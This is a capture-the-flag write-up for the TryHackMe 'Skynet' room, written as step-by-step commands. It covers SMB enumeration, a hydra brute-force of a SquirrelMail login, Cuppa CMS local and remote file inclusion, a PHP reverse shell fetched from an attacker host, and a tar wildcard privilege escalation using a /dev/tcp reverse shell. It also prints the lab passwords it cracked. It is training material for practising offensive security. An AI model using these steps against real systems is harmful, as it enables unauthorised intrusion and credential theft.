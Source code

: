 # Skynet

**Room Link:** [https://tryhackme.com/room/skynet](https://tryhackme.com/room/skynet)

```
nmap -A 10.10.13.172
```

<figure><img src="../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

```
smbclient -L //10.10.13.172
```

<figure><img src="../../.gitbook/assets/image (13) (2).png" alt=""><figcaption></figcaption></figure>

```
smbget -R smb://10.10.13.172/anonymous
cat logs/log* | sort | uniq  > passwords.txt 
```

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

There is also an email from Miles Dyson, as it's just his name I tried different varations of his name for a username. There is a folder on samba that could be the username as well, milesdyson.&#x20;

<figure><img src="../../.gitbook/assets/image (5) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (4) (1).png" alt=""><figcaption><p>username.txt</p></figcaption></figure>





```
gobuster dir 10.10.13.172 -u http://10.10.13.172 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (34) (1).png" alt=""><figcaption></figcaption></figure>



```
hydra -l milesdyson -P passwords.txt 10.10.13.172 http-post-form "/squirrelmail/src/login.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F incorrect" -V -F -u
```

<figure><img src="../../.gitbook/assets/image (27) (1).png" alt=""><figcaption></figcaption></figure>

We can now login to squirrelmail that gobuster discovered.

<figure><img src="../../.gitbook/assets/image (10) (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (3) (2).png" alt=""><figcaption></figcaption></figure>

Downloaded all the files from the milesdyson folder on smb.

```
smbget -R smb://10.10.13.172/milesdyson -U milesdyson
Password: )s{A&2Z=F^n_E.B`
```

<figure><img src="../../.gitbook/assets/image (32) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (35) (1).png" alt=""><figcaption></figcaption></figure>

```
gobuster dir 10.10.13.172 -u http://10.10.13.172/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

None of the passwords worked or default credentials for cuppa.

<figure><img src="../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

Found an exploit for cuppa LFI/RFI

```
searchsploit cuppa
searchsploit -x php/webapps/25971.txt
```

<figure><img src="../../.gitbook/assets/image (33) (1).png" alt=""><figcaption></figcaption></figure>

Testing LFI and it works

```
http://10.10.13.172/45kra24zxs28v3yd/administrator//alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we will try RFI to get a reverse shell

**Kali #1**&#x20;

Create PHP reverse shell then host the file

<figure><img src="../../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>

```
python2 -m SimpleHTTPServer 81
```

**Kali #2**

```
nc -lvnp 1337
```

**Browser**

```
http://10.10.13.172:81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.243.233/revshell.php
```

<figure><img src="../../.gitbook/assets/image (18) (2) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

There is a backup script that is ran every minute by root which backs up /var/www/html

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

****

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

We can use the following from gtfo to create a reverse shell. The checkpoint argument lets us run a command before the files are tar'd so we will create a reverse shell in /var/www/html and then the commands will execute when the folder is tar'd next.

****

**Exploit Link:** [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

```
printf '#!/bin/bash\nbash -i >& /dev/tcp/10.10.243.233/1338 0>&1' > /var/www/html/shell
chmod +x /var/www/html/shell
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=bash\ shell
```

**Kali**

```
nc -nvlp 1338
```

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

There is a password in the configuration file, it does not work for root but we see in the home directory another user called jjameson

```
cat /var/www/html/configuration.php
```

<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

We can login as jjameson&#x20;

```
su jjameson
Password: nv5uz9r3ZEDzVjNu
```
